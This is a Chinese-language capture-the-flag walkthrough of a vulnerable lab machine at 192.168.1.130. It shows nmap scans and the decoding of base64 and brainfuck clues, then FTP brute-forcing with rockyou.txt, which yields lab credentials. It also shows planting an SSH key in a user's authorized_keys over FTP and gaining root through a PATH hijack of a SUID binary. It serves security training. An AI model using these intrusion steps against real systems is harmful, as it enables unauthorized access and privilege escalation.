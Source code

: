 #### 信息收集

1. 主机发现：nmap -sn -PE -n 192.168.1.0/24
   192.168.1.130是新增加的ip地址，为靶机
2. 端口扫描：nmap -sT --min-rate 10000 -p- 192.168.1.130
   PORT   STATE SERVICE
   21/tcp open  ftp
   22/tcp open  ssh
   80/tcp open  http
3. 获取详细信息以及操作系统版本： nmap -sT -sV --min-rate 10000 -p21,22,80 -O 192.168.1.130
   PORT   STATE SERVICE VERSION
   21/tcp open  ftp     ProFTPD
   22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
   80/tcp open  http    Apache httpd 2.4.38 ((Debian))
   OS details: Linux 4.15 - 5.6
   Network Distance: 1 hop
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
4. 目录爆破，同时查看80端口

#### Web渗透

1. 非常简单的一个页面，查看源代码，发现base64一段编码，逐步解码后：

   ```
   Z28gYmFjayBpbnRydWRlciEhISBkR2xuYUhRZ2MyVmpkWEpwZEhrZ1pISnBjSEJwYmlCaFUwSnZZak5DYkVsSWJIWmtVMlI1V2xOQ2FHSnBRbXhpV0VKellqTnNiRnBUUWsxTmJYZ3dWMjAxVjJGdFJYbGlTRlpoVFdwR2IxZHJUVEZOUjFaSlZWUXdQUT09
   go back intruder!!! dGlnaHQgc2VjdXJpdHkgZHJpcHBpbiBhU0JvYjNCbElIbHZkU2R5WlNCaGJpQmxiWEJzYjNsbFpTQk1NbXgwV201V2FtRXliSFZhTWpGb1drTTFNR1ZJVVQwPQ==
   tight security drippin aSBob3BlIHlvdSdyZSBhbiBlbXBsb3llZSBMMmx0Wm5WamEybHVaMjFoWkM1MGVIUT0=
   i hope you're an employee L2ltZnVja2luZ21hZC50eHQ=
   /imfuckingmad.txt
   ```
2. 访问/imfuckingmad.txt文件，得到brainfuck代码，解密：

   ```
   man we are a tech company and still getting hacked??? what the shit??? enough is enough!!! 
   #
   ##


   /iTiS3Cr3TbiTCh.png
   ```
3. 访问/iTiS3Cr3TbiTCh.png，一张二维码，扫描后得到网站https://i.imgur.com/a4JjS76.png，无法访问，从别人的wp拿到后访问，得到用户名列表

#### 登录FTP

1. 将用户名列表做成字典，同时使用密码字典rockyou.txt进行ssh和ftp爆破
2. ssh无果，ftp爆出了用户名和密码：
   `[21][ftp] host: 192.168.1.130   login: luther   password: mypics`
   登陆后查看sync_log，无可利用信息，
3. 查看另一个目录hubert，无内容，是一个用户的家目录，尝试上传公钥ssh登录

#### FTP上传公钥

1. 生成公私钥，ssh-keygen -b 2048 -t rsa
2. 将私钥赋予400权限，chmod 400 id_rsa
3. 为hubert用户创建.ssh目录
4. 将公钥重命名为authorized_keys，上传到服务器的/hubert/.ssh下：put /root/.ssh/authorized_keys /hubert/.ssh/authorized_keys
5. ssh登录，拿到初级权限：ssh hubert@192.168.1.130 -i id_rsa

#### Suid提权

1. 先找到用户flag：flag 1/2
2. 查找具有suid权限的文件：find / -user root -perm -u=s 2>/dev/null
   /user/bin/getinfo 不是常见的命令
3. 查看此命令，有很多熟悉的字段，cat，ip等，可以将/tmp/加到环境变量前，写一个新的ip文命令或cat命令到tmp目录下：
   echo 'bin/bash' > /tmp/ip
4. 执行getinfo，获取root权限

```
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!

```
